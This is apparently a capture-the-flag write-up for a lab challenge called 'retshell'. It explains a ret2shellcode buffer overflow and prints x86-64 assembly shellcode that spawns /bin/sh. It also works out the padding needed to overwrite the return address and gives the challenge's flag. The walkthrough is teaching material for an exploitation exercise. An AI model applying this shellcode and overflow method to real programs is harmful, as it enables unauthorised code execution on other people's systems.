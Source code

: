 # retshell
## Description
> nc sqlab.zongyuan.nctu.me 6002
>
> [ret2shellcode](ret2shellcode)
---
## Writeup
For this problem, we need to inject shellcode to buffer, then use bufferoverflow to alter return address back to buffer to execute shellcode. (The problem provides the buffer address)

Below is the shellcode to gain /bin/sh
```assembly
push rax # for alignment (not sure why)
xor rdx, rdx # use xor to prevent null byte
xor rsi, rsi
mov rbx, 0x68732f2f6e69622f # little endian for /bin//sh, the extra slash is for preventing null byte
push rbx # push to stack
mov rdi, rsp # make rdi point to string
mov al, 0x3b # use mov al to prevent null byte
syscall
```

Next use objdump to see `sub rsp, 0xd0`, which means the space for buffer is 208 bytes.

![assembly](assembly.jpg)

So 208 + 8(rbp) with address appended we can override the return address. The shellcode takes 25 bytes, so we need to add 191 bytes of garbage to do it.

![flag](flag.jpg)

flag : balqs{system_bin_sh?}